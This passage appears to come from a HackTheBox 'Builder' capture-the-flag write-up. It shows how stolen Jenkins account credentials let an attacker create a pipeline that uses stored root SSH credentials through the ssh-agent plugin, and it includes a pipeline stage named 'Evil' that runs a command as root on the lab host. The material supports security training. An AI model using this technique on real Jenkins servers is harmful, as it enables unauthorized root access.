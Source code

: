 ![img_14](/assets/img/HackTheBox/Builder/img_14.png)

Since we having credentials for jennifer account, we can create a pipeline and use root SSH credentials to execute commands with elevated privileges.

From Jenkins dashboard we can go to `New Item`, click on `Pipeline` and then `Ok`.

In this link we can see how to use `ssh-agent` library in a pipeline: [SSH Agent](https://plugins.jenkins.io/ssh-agent/)

Basically we need to define it like this:

```bash

steps {
    sshagent(credentials: ['ssh-credentials-id']) {
      sh '''
        <Commands>
      '''
    }
}
```

And the final result would be:

```bash
pipeline {
    agent any
    stages {
        stage('Evil') {
            steps {
                sshagent(['1']) {
                    sh '''
                       ssh -l root 10.10.11.10 whoami
                    '''
                }
            }
        }
    }
}
```